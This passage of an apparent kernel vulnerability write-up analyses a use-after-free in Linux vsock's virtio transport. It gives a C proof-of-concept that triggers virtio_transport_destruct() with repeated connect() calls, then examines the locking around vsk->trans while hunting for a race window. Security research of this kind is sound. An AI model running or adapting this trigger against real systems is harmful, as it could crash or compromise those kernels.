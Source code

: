 ## 2. Proof-Of-Concept

The vulnerable function, `virtio_transport_destruct()`, can be triggered by executing the following C code:
``` c
int main() {
    int sockfd;
    struct sockaddr_vm addr;
    struct timeval timeout;

    sockfd = socket(AF_VSOCK, SOCK_SEQPACKET, 0);
    memset(&addr, 0, sizeof(addr));
    addr.svm_family = AF_VSOCK;
    addr.svm_port = VSOCK_PORT;

    timeout.tv_sec = 0;
    timeout.tv_usec = 1;
    setsockopt(sockfd, SOL_SOCKET, SO_SNDTIMEO, &timeout, sizeof(timeout));

    addr.svm_cid = VMADDR_CID_LOCAL;
    connect(sockfd, (struct sockaddr *)&addr, sizeof(addr));
    getchar();

    addr.svm_cid = VMADDR_CID_HOST;
    connect(sockfd, (struct sockaddr *)&addr, sizeof(addr)); // trigger
    getchar();

    return 0;
}
```

Clearly, you need to find somewhere the race window occurs for using freed `vsk->trans`. However, since the `vsock_connect()` function holds a lock of the socket [1], we cannot simply race two `vsock_connect()` calls simultaneously. The same issue also appears in other protocol handlers.
``` c
static int vsock_connect(struct socket *sock, struct sockaddr *addr,
             int addr_len, int flags)
{
    // [...]

    err = 0;
    sk = sock->sk;
    vsk = vsock_sk(sk);
    lock_sock(sk); // [1]

    // [...]
}
```

So I grep-ed all the uses of `vsk->trans;` and checked whether they could be reached without holding a lock. Unfortunately, all of them hold the lock before accessing `vsk->trans`.
- `virtio_transport_send_pkt_info()`
- `virtio_transport_seqpacket_do_peek()`
- `virtio_transport_seqpacket_do_dequeue()`
- `virtio_transport_seqpacket_enqueue()`
- `virtio_transport_seqpacket_has_data()`
- `virtio_transport_notify_buffer_size()`
- `virtio_transport_remove_sock()`
- `virtio_transport_recv_enqueue()`
- `virtio_transport_space_update()`
- `virtio_transport_read_skb()`
- `virtio_transport_notify_set_rcvlowat()`
